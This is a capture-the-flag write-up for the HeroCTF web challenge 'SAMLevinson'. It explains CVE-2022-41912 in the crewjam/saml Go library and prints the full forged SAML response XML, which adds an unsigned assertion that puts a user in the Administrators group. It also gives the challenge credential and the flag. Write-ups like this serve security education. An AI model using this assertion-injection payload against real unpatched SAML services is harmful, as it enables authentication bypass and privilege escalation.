






# SAMLevinson

### Category

Web

### Difficulty

Medium

### Tags

- saml
- golang
- cve
- "2022"

### Author

Thib

### Description

This Sam Levinson fan club website seems to hold a secret. However, I get the impression that the login page isn't working... Try to find the flag! 

We managed to recover a functional account on the IDP, if that helps: `user:oyJPNYd3HgeBkaE%!rP#dZvqf2z*4$^qcCW4V6WM`

*There is no need for brute force or fuzzing; everything is accessible naturally. There is no benefit in attacking the port associated with the IDP directly, as it is not part of the challenge.*

Challenge URLs:

- APP: [http://web.heroctf.fr:8080](http://web.heroctf.fr:8080)
- IDP: [http://web.heroctf.fr:8081](http://web.heroctf.fr:8081)

### Write Up

As you might guess, this challenge will focus on SSO and SAML in general. 

When you arrive on the page, you will see a login page with a login/password form. It is not functional; no username or password will work.



Fortunately, another connection method is available, related to our challenge : "SSO Login".



Using the account provided in the challenge description, it is possible to log in to the IDP using SSO.



This interface is very interesting because it indicates that we cannot see the flag as we are not part of the `Administrators` group. And indeed, when we look at the `SAML Attributes`, we see that our group is only `Users`.

The objective of the challenge is to change the group associated with the user. 

By looking at the tags associated with the challenge, you can do a quick Google search to find the CVE mentioned.



This is a CVE (CVE-2022-41912) that affects the crewjam/saml library and has been fixed in version 0.49. Looking at the commits in the repository, we can see the commit that fixed the vulnerability (https://github.com/crewjam/saml/commit/aee3fb1edeeaf1088fcb458727e0fd863d277f8b). 

We understand that this is a vulnerability that allows authentication to be bypassed by sending two assertions. The first is the original and the second is a malicious assertion that we are going to modify.

The bug (CVE-2022-41912) in crewjam/saml ≤ 0.48 verifies at least one assertion’s signature but doesn’t guarantee that the assertion used to build the user session is the same one that was verified. If you include two `<saml:Assertion>` blocks:

- a legitimate, signed assertion for user, and
- a second, unsigned / attacker-controlled assertion that grants an admin-like group,

the SP may happily create a session from the attacker assertion after having seen a valid signature on the first one.

Thus, all you need to do is intercept a SAML response, add an unsigned assertion above the real one, and modify its attributes to place the user in the Administrators group.

Here is a SAML response returned by the IDP: 

```xml
<samlp:Response xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion" Destination="http://web.heroctf.fr:8080/saml/acs">
    [...]
    <saml:Assertion xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion"
        ID="id-0e80dcf5e55088aa9b27d33af871dd763d41610c" IssueInstant="2025-11-24T18:25:13.176Z"
        Version="2.0">
        [...]
        <ds:Signature xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
            <ds:SignedInfo>
                <ds:CanonicalizationMethod Algorithm="http://www.w3.org/2001/10/xml-exc-c14n#" />
                <ds:SignatureMethod Algorithm="http://www.w3.org/2000/09/xmldsig#rsa-sha1" />
                <ds:Reference URI="#id-0e80dcf5e55088aa9b27d33af871dd763d41610c">
                    <ds:Transforms>
                        <ds:Transform
                            Algorithm="http://www.w3.org/2000/09/xmldsig#enveloped-signature" />
                        <ds:Transform Algorithm="http://www.w3.org/2001/10/xml-exc-c14n#" />
                    </ds:Transforms>
                    <ds:DigestMethod Algorithm="http://www.w3.org/2000/09/xmldsig#sha1" />
                    <ds:DigestValue>PjSSYq1eB9iQmhVN6yLkphztxK4=</ds:DigestValue>
                </ds:Reference>
            </ds:SignedInfo>
            <ds:SignatureValue>
                Q1pfPlpjg9VT8JPy49ttSKMxxOfidEmxIjMAGsEbqLMK8KxN8SmkDAN3b1xGTo9hpDxftqOywMK/wMCi9MQHMFAB/EvpycmhXM6lNMaBvLNpUwPsB6IAPoRsA7T+GXqXg5QhnaiyCs1SWhr1u2jPkJe2wqHmE/aaED301TdZN9GwXX3pVmbKx2uZGn+08y5ZmFy1+fbSwpcQnxL9+koMpP0zlBXc5xDIP/8ACVhH6KdTeEWkvaO3hnOZ8QPIxZYlGWX9h4umgCFPSgl2VACEAB7BBVVsLQJCD2MpqKEbEvgQ2/nn+KYAIkK3KBGPHlHSh+hZHUfSEkVD/VVj6yqKTg==</ds:SignatureValue>
            [...]
        </ds:Signature>
        <saml:Subject>
            <saml:NameID Format="urn:oasis:names:tc:SAML:2.0:nameid-format:transient"
                NameQualifier="http://web.heroctf.fr:8081/metadata"
                SPNameQualifier="http://web.heroctf.fr:8080/saml/metadata" />
            <saml:SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
                <saml:SubjectConfirmationData Address="172.18.0.1:47748"
                    InResponseTo="id-80bbb9f4233d9f537f083fb4097bccbc86362d86"
                    NotOnOrAfter="2025-11-24T18:26:43.121Z"
                    Recipient="http://web.heroctf.fr:8080/saml/acs" />
            </saml:SubjectConfirmation>
        </saml:Subject>
        <saml:Conditions NotBefore="2025-11-24T18:24:58.522Z"
            NotOnOrAfter="2025-11-24T18:26:28.522Z">
            <saml:AudienceRestriction>
                <saml:Audience>http://web.heroctf.fr:8080/saml/metadata</saml:Audience>
            </saml:AudienceRestriction>
        </saml:Conditions>
        <saml:AuthnStatement AuthnInstant="2025-11-24T18:25:13.176Z"
            SessionIndex="1c054459181b8ce5725ae44a73a620bd0042fcffffbb2bcccf4c084cb0ef485e">
            <saml:SubjectLocality Address="172.18.0.1:47748" />
            <saml:AuthnContext>
                <saml:AuthnContextClassRef>
                    urn:oasis:names:tc:SAML:2.0:ac:classes:PasswordProtectedTransport</saml:AuthnContextClassRef>
            </saml:AuthnContext>
        </saml:AuthnStatement>
        <saml:AttributeStatement>
            <saml:Attribute FriendlyName="uid" Name="urn:oid:0.9.2342.19200300.100.1.1"
                NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:uri">
                <saml:AttributeValue xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
                    xsi:type="xs:string">user</saml:AttributeValue>
            </saml:Attribute>
            <saml:Attribute FriendlyName="eduPersonAffiliation"
                Name="urn:oid:1.3.6.1.4.1.5923.1.1.1.1"
                NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:uri">
                <saml:AttributeValue xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
                    xsi:type="xs:string">Users</saml:AttributeValue>
            </saml:Attribute>
        </saml:AttributeStatement>
    </saml:Assertion>
</samlp:Response>
```

As can be seen, there is only one assertion contained in the response, and it is signed. We can also see that two attributes are passed: `eduPersonAffiliation = Users` and `uid = user`. The goal will be to change that. 

You can therefore copy the assertion, remove its signature, change its ID, modify the attributes to replace Users with Administrators, and add it just after the real assertion.

Here is an example of a modified assertion for our exploit : 

```xml
<saml:Assertion ID="id-0e80dcf5e55088aa9b27d33af871dd763d41610c_attack"
    IssueInstant="2025-11-24T18:25:13.176Z" Version="2.0"
    xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion">
    <saml:Issuer Format="urn:oasis:names:tc:SAML:2.0:nameid-format:entity">
        http://web.heroctf.fr:8081/metadata</saml:Issuer>
    <saml:Subject>
        <saml:NameID Format="urn:oasis:names:tc:SAML:2.0:nameid-format:transient"
            NameQualifier="http://web.heroctf.fr:8081/metadata"
            SPNameQualifier="http://web.heroctf.fr:8080/saml/metadata" />
        <saml:SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
            <saml:SubjectConfirmationData Address="172.18.0.1:47748"
                InResponseTo="id-80bbb9f4233d9f537f083fb4097bccbc86362d86"
                NotOnOrAfter="2025-11-24T18:26:43.121Z" Recipient="http://web.heroctf.fr:8080/saml/acs" />
        </saml:SubjectConfirmation>
    </saml:Subject>
    <saml:Conditions NotBefore="2025-11-24T18:24:58.522Z" NotOnOrAfter="2025-11-24T18:26:28.522Z">
        <saml:AudienceRestriction>
            <saml:Audience>http://web.heroctf.fr:8080/saml/metadata</saml:Audience>
        </saml:AudienceRestriction>
    </saml:Conditions>
    <saml:AuthnStatement AuthnInstant="2025-11-24T18:25:13.176Z"
        SessionIndex="1c054459181b8ce5725ae44a73a620bd0042fcffffbb2bcccf4c084cb0ef485e">
        <saml:SubjectLocality Address="172.18.0.1:47748" />
        <saml:AuthnContext>
            <saml:AuthnContextClassRef>
                urn:oasis:names:tc:SAML:2.0:ac:classes:PasswordProtectedTransport</saml:AuthnContextClassRef>
        </saml:AuthnContext>
    </saml:AuthnStatement>
    <saml:AttributeStatement>
        <saml:Attribute FriendlyName="uid" Name="urn:oid:0.9.2342.19200300.100.1.1"
            NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:uri">
            <saml:AttributeValue xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
                xsi:type="xs:string">user</saml:AttributeValue>
        </saml:Attribute>
        <saml:Attribute FriendlyName="eduPersonAffiliation" Name="urn:oid:1.3.6.1.4.1.5923.1.1.1.1"
            NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:uri">
            <saml:AttributeValue xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
                xsi:type="xs:string">Administrators</saml:AttributeValue>
        </saml:Attribute>
    </saml:AttributeStatement>
</saml:Assertion>
```

There is no longer a signature, the ID is different, and the `eduPersonAffiliation` is set to `Administrator`. This assertion must therefore be added immediately after the valid assertion.

In my case, I use SAMLRaider on Burp Suite.



In practical terms, to resolve the challenge, I will intercept the SAMLResponse request, then copy the entire assertion section and paste it after the end tag of the real assertion, delete the entire signature section, and change Users to Administrators.

```xml
<samlp:Response xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion"[...]>
    [...]

    <!-- First real assertion -->
    <saml:Assertion xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion"
        ID="id-2e3ad6e91dd30accee2f3a4131d85cd6683f58de" IssueInstant="2025-11-24T18:39:54.115Z"
        Version="2.0">
        <saml:Issuer Format="urn:oasis:names:tc:SAML:2.0:nameid-format:entity">
            http://web.heroctf.fr:8081/metadata</saml:Issuer>
            
        <!-- The signature must be valid -->
        <ds:Signature xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
            <ds:SignedInfo>
                <ds:CanonicalizationMethod Algorithm="http://www.w3.org/2001/10/xml-exc-c14n#" />
                <ds:SignatureMethod Algorithm="http://www.w3.org/2000/09/xmldsig#rsa-sha1" />
                <ds:Reference URI="#id-2e3ad6e91dd30accee2f3a4131d85cd6683f58de">
                    <ds:Transforms>
                        <ds:Transform
                            Algorithm="http://www.w3.org/2000/09/xmldsig#enveloped-signature" />
                        <ds:Transform Algorithm="http://www.w3.org/2001/10/xml-exc-c14n#" />
                    </ds:Transforms>
                    <ds:DigestMethod Algorithm="http://www.w3.org/2000/09/xmldsig#sha1" />
                    <ds:DigestValue>dkG4EIwsnGrai3LAYIN6sZ5kTQk=</ds:DigestValue>
                </ds:Reference>
            </ds:SignedInfo>
            <ds:SignatureValue>
                20YEb5/Eef8QzjI6ngDw02bb8H3izxQYpkd8u1XKM91yNW5Rd0uFUvtkM50aSPDdxemiUeYhC5aU9VZvLTcuzpo4FrKyFtRBKREjiEag527LQqzBJ8fcUFP6MTq+pjZRM5ZixRNvX+ZQNiBAZzUosnDRdCjmZdjbqOSWYC+6ZEZGEdG5dC7Rb+dFKUmOUfTFZDOZaeW15SliksTXNGDq1hFWsunr8f+0BufGKApmD7lz5DIxCdGiUmKBq7MuepamRL+Dgkxl0P8yt75esz+wh0F7YvtkrBPUCliBGWPh7nnFH134RaOcMn2In7GFAEgdHMVzuw3zsvurWFffUy369w==</ds:SignatureValue>
            [...]
        </ds:Signature>
        <saml:Subject>
            <saml:NameID Format="urn:oasis:names:tc:SAML:2.0:nameid-format:transient"
                NameQualifier="http://web.heroctf.fr:8081/metadata"
                SPNameQualifier="http://web.heroctf.fr:8080/saml/metadata" />
            <saml:SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
                <saml:SubjectConfirmationData Address="172.18.0.1:41928"
                    InResponseTo="id-5d38b0ae9d6cf66ddd551a9f924165d7fbe60060"
                    NotOnOrAfter="2025-11-24T18:41:24.06Z"
                    Recipient="http://web.heroctf.fr:8080/saml/acs" />
            </saml:SubjectConfirmation>
        </saml:Subject>
        <saml:Conditions NotBefore="2025-11-24T18:39:37.971Z"
            NotOnOrAfter="2025-11-24T18:41:07.971Z">
            <saml:AudienceRestriction>
                <saml:Audience>http://web.heroctf.fr:8080/saml/metadata</saml:Audience>
            </saml:AudienceRestriction>
        </saml:Conditions>
        <saml:AuthnStatement AuthnInstant="2025-11-24T18:39:54.115Z"
            SessionIndex="2d091e7bb26f78c316b54e58075876f36d343cbe65e50e2e0611575e15ff8de4">
            <saml:SubjectLocality Address="172.18.0.1:41928" />
            <saml:AuthnContext>
                <saml:AuthnContextClassRef>
                    urn:oasis:names:tc:SAML:2.0:ac:classes:PasswordProtectedTransport</saml:AuthnContextClassRef>
            </saml:AuthnContext>
        </saml:AuthnStatement>
        
        <!-- Real user attributes -->
        <saml:AttributeStatement>
            <saml:Attribute FriendlyName="uid" Name="urn:oid:0.9.2342.19200300.100.1.1"
                NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:uri">
                <saml:AttributeValue xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
                    xsi:type="xs:string">user</saml:AttributeValue>
            </saml:Attribute>
            <saml:Attribute FriendlyName="eduPersonAffiliation"
                Name="urn:oid:1.3.6.1.4.1.5923.1.1.1.1"
                NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:uri">
                <saml:AttributeValue xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
                    xsi:type="xs:string">Users</saml:AttributeValue>
            </saml:Attribute>
        </saml:AttributeStatement>
    </saml:Assertion>

    <!-- Fake assertion with no signatures -->
    <saml:Assertion xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion"
        ID="id-2e3ad6e91dd30accee2f3a4131d85cd6683f58de" IssueInstant="2025-11-24T18:39:54.115Z"
        Version="2.0">
        <saml:Issuer Format="urn:oasis:names:tc:SAML:2.0:nameid-format:entity">
            http://web.heroctf.fr:8081/metadata</saml:Issuer>
        <saml:Subject>
            <saml:NameID Format="urn:oasis:names:tc:SAML:2.0:nameid-format:transient"
                NameQualifier="http://web.heroctf.fr:8081/metadata"
                SPNameQualifier="http://web.heroctf.fr:8080/saml/metadata" />
            <saml:SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
                <saml:SubjectConfirmationData Address="172.18.0.1:41928"
                    InResponseTo="id-5d38b0ae9d6cf66ddd551a9f924165d7fbe60060"
                    NotOnOrAfter="2025-11-24T18:41:24.06Z"
                    Recipient="http://web.heroctf.fr:8080/saml/acs" />
            </saml:SubjectConfirmation>
        </saml:Subject>
        <saml:Conditions NotBefore="2025-11-24T18:39:37.971Z"
            NotOnOrAfter="2025-11-24T18:41:07.971Z">
            <saml:AudienceRestriction>
                <saml:Audience>http://web.heroctf.fr:8080/saml/metadata</saml:Audience>
            </saml:AudienceRestriction>
        </saml:Conditions>
        <saml:AuthnStatement AuthnInstant="2025-11-24T18:39:54.115Z"
            SessionIndex="2d091e7bb26f78c316b54e58075876f36d343cbe65e50e2e0611575e15ff8de4">
            <saml:SubjectLocality Address="172.18.0.1:41928" />
            <saml:AuthnContext>
                <saml:AuthnContextClassRef>
                    urn:oasis:names:tc:SAML:2.0:ac:classes:PasswordProtectedTransport</saml:AuthnContextClassRef>
            </saml:AuthnContext>
        </saml:AuthnStatement>

        <!-- Attribute set to Administrators -->
        <saml:AttributeStatement>
            <saml:Attribute FriendlyName="uid" Name="urn:oid:0.9.2342.19200300.100.1.1"
                NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:uri">
                <saml:AttributeValue xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
                    xsi:type="xs:string">user</saml:AttributeValue>
            </saml:Attribute>
            <saml:Attribute FriendlyName="eduPersonAffiliation"
                Name="urn:oid:1.3.6.1.4.1.5923.1.1.1.1"
                NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:uri">
                <saml:AttributeValue xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
                    xsi:type="xs:string">Administrators</saml:AttributeValue>
            </saml:Attribute>
        </saml:AttributeStatement>
    </saml:Assertion>
</samlp:Response>
```



### Flag

Hero{S4ML_3XPL01T_FR0M_CR3J4M}